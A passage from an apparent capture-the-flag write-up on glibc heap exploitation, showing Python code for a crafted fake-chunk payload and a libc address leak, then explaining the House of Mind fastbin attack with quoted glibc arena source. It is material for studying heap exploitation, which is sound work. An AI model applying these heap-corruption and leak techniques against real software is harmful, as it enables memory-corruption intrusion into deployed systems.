 ```python
    0x0, 0x31,
    0x1ffffde29, 0x0,
    # *right, *data
    heap_leak + 0xd00, heap_leak + 0xb20, # unsorted leak will be here later
)
add(b"CS2000", 0x70, payload)
```

## Libc leak

As mentioned earlier, we just need to overwrite the data pointer for libc leak.

```python
# make new smallbin chunks and free them for unsorted leak
for i in range(8):
    add(f"CS999{i}".encode(), 0xf0, b"a")
for i in range(7, -1, -1):
    delete(f"CS999{i}".encode())

libc_leak = u64(search(b"\xff\xff1337").ljust(8, b"\x00")) - 0x203b20
print(hex(libc_leak))
```

## Small detour - House of Mind (fastbin variant)

After this, I initially tried a different approach (which got really close!), and because I think it's quite cool I'll
add it to the writeup too.

House of Mind is an old attack that used non-main arena logic to write a freed chunk address at an arbitrary location in
memory. This attack comes in 2 variants, unsorted and fastbin.

Non-main arena chunks are indicated in the size field by the 0x4 bit. The arena stores information about fastbins,
unsorted bins and small/large bins, as well as other stuff like available memory in the heap and the address of top
chunk. If a chunk is using the main arena, it will simply read from and write to the main arena, which is found in libc.
However, if the chunk isn't using main arena, it first resolves the address from another struct in the heap, which (for
non-main arena heaps) should be placed at the very top of the heap. 

From glibc source:

> To find the arena for a chunk on such a non-main arena, heap_for_ptr performs a bit mask operation and indirection
> through the ar_ptr member of the per-heap header heap_info (see arena.c).

`arena.c`:

```c
typedef struct _heap_info
{
  mstate ar_ptr; /* Arena for this heap. */
  struct _heap_info *prev; /* Previous heap. */
  size_t size;   /* Current size in bytes. */
  size_t mprotect_size; /* Size in bytes that has been mprotected
                           PROT_READ|PROT_WRITE.  */
  size_t pagesize; /* Page size used when allocating the arena.  */
  /* Make sure the following data is properly aligned, particularly
     that sizeof (heap_info) + 2 * SIZE_SZ is a multiple of
     MALLOC_ALIGNMENT. */
  char pad[-3 * SIZE_SZ & MALLOC_ALIGN_MASK];
} heap_info;

```